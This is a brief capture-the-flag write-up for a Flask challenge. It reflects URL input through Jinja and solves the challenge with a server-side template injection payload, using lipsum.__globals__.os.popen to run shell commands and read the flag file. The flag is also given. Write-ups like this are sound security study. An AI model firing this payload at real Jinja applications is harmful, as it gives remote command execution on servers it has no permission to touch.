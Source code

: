 # Just Cat The Flask 1/2
> https://bluehens-cat-the-flask.chals.io/greeting/hi

## About the Challenge
We were given a website without the source code, every input after `/greeting/*` is reflected in the website

![preview](images/preview.png)

## How to Solve?
The website was vulnerable to SSTI and this website uses Jinja as its templating engine. Here is the payload I used to execute OS command:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{lipsum.__globals__.os.popen('ls').read()}}
```

![ssti](images/ssti.png)

There is a file called `flag1.txt`, read that to obtain the flag

![flag](images/flag.png)

```
UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}
```